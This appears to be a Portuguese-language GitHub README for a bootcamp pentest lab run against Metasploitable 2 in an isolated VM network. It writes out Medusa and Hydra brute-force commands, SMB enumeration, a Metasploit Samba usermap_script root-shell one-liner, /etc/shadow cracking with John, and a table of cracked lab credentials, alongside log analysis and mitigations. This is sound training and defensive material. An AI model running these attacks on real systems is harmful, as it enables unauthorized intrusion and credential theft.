


# 🛡️ Laboratório Prático: Ataque de Força Bruta com Medusa e Análise de Logs

> **Projeto prático desenvolvido no Bootcamp Santander Cibersegurança da [DIO](https://dio.me).**  
> Simulação controlada de ataques de força bruta (*dictionary attack*) e análise defensiva de logs em ambiente virtualizado.

---

## 📋 Sumário
- [Visão Geral](#-visão-geral)
- [Topologia do Laboratório](#-topologia-do-laboratório)
- [Metodologia e Execução](#-metodologia-e-execução)
  - [1. Validação de Conectividade](#1-validação-de-conectividade)
  - [2. Criação da Wordlist](#2-criação-da-wordlist)
  - [3. Cenário 1: Força Bruta contra FTP (Porta 21)](#3-cenário-1-força-bruta-contra-ftp-porta-21)
  - [4. Cenário 2: Força Bruta contra SSH (Porta 22)](#4-cenário-2-força-bruta-contra-ssh-porta-22)
  - [5. Auditoria e Análise de Logs no Alvo](#5-auditoria-e-análise-de-logs-no-alvo)
  - [6. Cenário 3: Ataque Web no DVWA](#6-cenário-3-ataque-web-no-dvwa)
  - [7. Cenário 4: Enumeração SMB e Exploit Samba usermap_script](#7-cenário-4-enumeração-smb-e-exploit-samba-usermap_script)
  - [8. Pós-Exploração: /etc/shadow e John the Ripper](#8-pós-exploração-etcshadow-e-john-the-ripper)
- [Mitigações e Recomendações Defensivas](#-mitigações-e-recomendações-defensivas)
- [Credenciais Obtidas](#-credenciais-obtidas)
- [Pendências e Retomada](#-pendências-e-retomada)
- [Estrutura do Repositório](#-estrutura-do-repositório)

---

## 🎯 Visão Geral

O objetivo deste projeto é reproduzir as etapas de um teste de intrusão focado em autenticação, compreendendo na prática:
1. Como ferramentas automatizadas de força bruta (**Medusa**) realizam tentativas massivas de login contra diferentes serviços de rede.
2. Como os serviços auditam e registram tentativas falhas e acessos legítimos nos arquivos de log do sistema operacional.
3. Quais medidas defensivas impedem ou mitigam esses vetores de ataque em um ambiente corporativo real.

---

## 🖥️ Topologia do Laboratório

O ambiente foi configurado de forma isolada no **VMware Workstation Pro**, utilizando uma rede virtual no modo **NAT** (`192.168.81.0/24`):

| Máquina | Papel | Sistema Operacional | Endereço IP |
| :--- | :--- | :--- | :--- |
| **Atacante** | Estação de Testes / Pentest | Kali Linux | `192.168.81.128` |
| **Alvo** | Servidor Intencionalmente Vulnerável | Metasploitable 2 | `192.168.81.129` |

---

## 🚀 Metodologia e Execução

### 1. Validação de Conectividade
Antes de iniciar os testes, foi validado o alcance de rede entre o Kali Linux e o Metasploitable 2:

```bash
# Executado no Kali Linux
ping -c 3 192.168.81.129
```
* **Resultado:** 3 pacotes transmitidos, 3 recebidos, **0% packet loss**, confirmando comunicação ativa na sub-rede.

---

### 2. Criação da Wordlist
Foi montado um dicionário de teste (`senhas.txt`) com senhas comuns fracas combinadas com a credencial real do serviço:

```bash
cat << 'EOF' > wordlists/senhas.txt
123456
password
admin
root
toor
letmein
msfadmin
EOF
```

---

### 3. Cenário 1: Força Bruta contra FTP (Porta 21)
O serviço **FTP** (*vsftpd*) foi testado utilizando o módulo `ftp` do Medusa:

```bash
medusa -h 192.168.81.129 -u msfadmin -P wordlists/senhas.txt -M ftp
```

* **Resultado obtido:**  
  O Medusa iterou pelas senhas incorretas e identificou com sucesso a credencial na 7ª tentativa:
```text
ACCOUNT FOUND: [ftp] Host: 192.168.81.129 User: msfadmin Password: msfadmin [SUCCESS]
```



---

### 4. Cenário 2: Força Bruta contra SSH (Porta 22)
Em seguida, o teste foi realizado contra o serviço de acesso remoto seguro **OpenSSH**:

```bash
medusa -h 192.168.81.129 -u msfadmin -P wordlists/senhas.txt -M ssh
```

* **Resultado obtido:**
```text
ACCOUNT FOUND: [ssh] Host: 192.168.81.129 User: msfadmin Password: msfadmin [SUCCESS]
```



---

### 5. Auditoria e Análise de Logs no Alvo
Para validar a perspectiva defensiva, os logs de autenticação do Metasploitable 2 foram acompanhados em tempo real durante os ataques. É importante destacar a separação de arquivos de log por serviço:

#### A. Auditoria do Serviço SSH (OpenSSH)
Monitorado diretamente no arquivo de autenticação do sistema:
```bash
sudo tail -f /var/log/auth.log
```
**Comportamento observado:**
* As tentativas incorretas geraram múltiplos registros de falha:  
  `Failed password for msfadmin from 192.168.81.128 port ... ssh2`
* No momento em que a credencial correta foi testada, o log registrou a autorização:  
  `Accepted password for msfadmin from 192.168.81.128 port ... ssh2`

#### B. Auditoria do Serviço FTP (vsftpd)
O daemon do vsftpd possui registro dedicado para tentativas de login e transferências:
```bash
sudo tail -f /var/log/vsftpd.log
```
*(Também correlacionado em `/var/log/syslog`).*

#### C. Auditoria pós-ataque (grep)
Para conferir o que ficou registrado após os ataques:
```bash
# SSH: sucessos e falhas
sudo grep -E "Failed password|Accepted password" /var/log/auth.log | tail -20

# FTP: últimas entradas
sudo tail -20 /var/log/vsftpd.log
# fallback, se o arquivo não existir
sudo grep vsftpd /var/log/auth.log | tail -20
```

Esse comportamento evidencia a trilha de auditoria essencial para analistas de SOC (*Security Operations Center*) identificarem ataques volumétricos e anomalias de autenticação em diferentes camadas de serviço.

---

### 6. Cenário 3: Ataque Web no DVWA

* **Alvo:** Aplicação *Damn Vulnerable Web App* hospedada em `http://192.168.81.129/dvwa/`, nível de segurança `Low`.
* **Ação:** Teste inicial de força bruta no formulário de login web com **Hydra** (`http-get-form`).
* **Resultado:** O Hydra retornou 7 "senhas válidas" — **falso positivo**. Por estar sem a flag `-f` (parar no primeiro sucesso) e sem a string de falha correta do DVWA (`Username and/or password incorrect.`), o Hydra interpretou respostas de erro como sucesso. A correção é adicionar `-f` e a string `F=Username and/or password incorrect.` na condição do `hydra`.
* **DVWA via curl:** Login retorna `302` mas `cookies_auth.txt` sai vazio — **incompleto**. Solução documentada em *Pendências e Retomada*: o cookie de sessão `PHPSESSID` não muda no login, é o estado no servidor que muda. Basta reutilizar o `PHPSESSID` de `cookies.txt`.

---

### 7. Cenário 4: Enumeração SMB e Exploit Samba usermap_script

**Enumeração:**
```bash
nmap -p 139,445 192.168.81.129           # portas SMB abertas
enum4linux -U 192.168.81.129              # ~36 usuários enumerados
enum4linux -a 192.168.81.129              # shares e detalhes
```
**Shares SMB identificados:** `tmp` (gravável), `opt`, `print$`, `ADMIN$`, `IPC$`, `msfadmin`.

**Exploração — Samba usermap_script (CVE-2007-2447):**
O Metasploitable 2 roda Samba 3.0.20 vulnerável ao *usermap script*. O exploit fornece shell como **root**:
```bash
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS 192.168.81.129; set LHOST 192.168.81.128; set LPORT 4444; run"
```
**Resultado:** Shell **ROOT** obtido (`uid=0(root)`) — máquina totalmente comprometida. Veja comando de retomada em *Pendências e Retomada*.

---

### 8. Pós-Exploração: /etc/shadow e John the Ripper

Com o shell root, copiei `/etc/shadow` para `/tmp/hashes.txt` e crackeie com **John the Ripper** (format `md5crypt`):

```bash
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hashes.txt
# 3 hashes: sys:batman, klog:123456789, service:service

john --format=md5crypt --wordlist=wordlists/senhas.txt /tmp/hashes.txt
# +3: msfadmin, postgres, user
# Total: 6 de 7 hashes crackeados
```

**Root NÃO crackeado:** `root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.` — tentativas com rockyou, rules, mask `?l?l?l?l?l?l` e stdin `batman` falharam. Como já somos root via exploit, o crack é opcional (apenas para o relatório); alternativa é hashcat com GPU ou wordlist maior. Detalhes em *Pendências e Retomada*.

**Observação:** `setxkbmap br` no início da sessão corrompeu caracteres do prompt (`Б”ҲБ”қ`) — cosmético, não afeta os testes.

---

## 🛡️ Mitigações e Recomendações Defensivas

1. **Bloqueio Automático e Rate Limiting:**
   * Utilizar **Fail2ban** para bloquear automaticamente endereços IP que excedam limites de tentativas incorretas consecutivas.
2. **Políticas de Senhas Fortes:**
   * Exigir comprimento mínimo (mínimo de 12 a 16 caracteres), entropia e validação contra dicionários de credenciais vazadas.
3. **Autenticação Multifator (MFA / 2FA):**
   * Exigir segundo fator para serviços expostos e portais administrativos.
4. **Desativação de Protocolos em Texto Claro:**
   * Descontinuar o uso de **FTP puro** (porta 21), substituindo por **SFTP** ou **FTPS**.
5. **Autenticação baseada em Chaves Criptográficas:**
   * No OpenSSH, desabilitar autenticação por senha (`PasswordAuthentication no`) e utilizar chaves públicas/privadas (Ed25519 ou RSA 4096).
6. **Monitoramento e Alertas de SOC:**
   * Coletar e correlacionar eventos de autenticação via SIEM para disparar alertas automáticos diante de picos de tentativas falhas.

---

## 🔑 Credenciais Obtidas

> Credenciais de laboratório intencionalmente vulnerável (Metasploitable 2), obtidas via força bruta, enumeração e pós-exploração.

| Serviço | Usuário | Senha | Origem |
| :--- | :--- | :--- | :--- |
| FTP | msfadmin | msfadmin | Medusa (Cenário 1) |
| SSH | msfadmin | msfadmin | Medusa (Cenário 2) |
| SSH | sys | batman | John the Ripper (rockyou) |
| SSH | klog | 123456789 | John the Ripper (rockyou) |
| SSH | service | service | John the Ripper (rockyou) |
| PostgreSQL | postgres | postgres | John the Ripper (wordlist custom) |
| Sistema | user | user | John the Ripper (wordlist custom) |
| **Root (shell)** | root | *(via exploit, sem senha)* | `exploit/multi/samba/usermap_script` — `uid=0(root)` |

**Total John:** 6 de 7 hashes do `/etc/shadow` crackeados (todos exceto o root).

---

## ⏳ Pendências e Retomada

### 1. Crack do hash do root (único que falta)
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.
```
- Tentativas feitas: rockyou, rules, mask `?l?l?l?l?l?l`, stdin `batman` → **sem sucesso**
- **Sugestão:** como já é **root** via Samba usermap_script, o crack é opcional (só para relatório). Alternativa: `passwd root` no shell root, ou hashcat com GPU.

### 2. DVWA via curl (opcional)
- Login retorna `302` mas `cookies_auth.txt` sai vazio
- **Sugestão:** usar o mesmo `PHPSESSID` do `cookies.txt` (o cookie de sessão não muda no login, só o estado no servidor) e testar:
```bash
PHPSESSID=$(grep PHPSESSID cookies.txt | awk '{print $7}')
curl -b "PHPSESSID=$PHPSESSID; security=low" \
  "http://192.168.81.129/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
  -s | grep -i welcome
```

### 3. Hydra do DVWA (corrigir falso positivo)
- Adicionar `-f` (parar no primeiro) e usar string de falha correta (`Username and/or password incorrect.`) — o output mostrou 7 "válidas", o que é impossível.

### Comandos para retomar

```bash
# 1. Reabrir shell root
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS 192.168.81.129; set LHOST 192.168.81.128; set LPORT 4444; run"

# 2. Crack root isolado (se quiser)
echo 'root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.' > ~/root_only.txt
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt ~/root_only.txt

# 3. DVWA
PHPSESSID=$(grep PHPSESSID cookies.txt | awk '{print $7}')
curl -b "PHPSESSID=$PHPSESSID; security=low" \
  "http://192.168.81.129/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
  -s | grep -i welcome
```

**Observações:**
- O hash do root **não está no rockyou** com as regras usadas; pode ser necessário hashcat + GPU ou wordlist maior.
- `setxkbmap br` no início corrompeu alguns caracteres do prompt (`Б”ҲБ”қ`) — cosmético, não afeta nada.
- A sessão MSF foi fechada acidentalmente (`exit`); para reabrir basta rodar o msfconsole novamente com o mesmo comando.
- **SSH no Kali novo:** o Metasploitable só oferece chaves antigas (`ssh-rsa,ssh-dss`). Se der `no matching host key type found`, conectar com:
  ```bash
  ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.81.129
  # senha: msfadmin
  ```

---

## 📁 Estrutura do Projeto

```text
medusa-kali-lab/
├── images/             # Capturas de tela comprobatórias
│   ├── evidencia_ftp.png
│   ├── evidencia_ssh.png
│   ├── evidencia_logs.png
│   ├── evidencia_dvwa.png
│   ├── evidencia_enum4linux.png
│   ├── evidencia_samba.png
│   └── evidencia_john.png
├── wordlists/          # Wordlist de testes utilizada
│   └── senhas.txt
└── README.md           # Relatório técnico completo
```

---
*Autor: cyndaquil ([hinoarashi](https://github.com/hinoarashi)) | Desenvolvido no Bootcamp Santander Cibersegurança na DIO.*
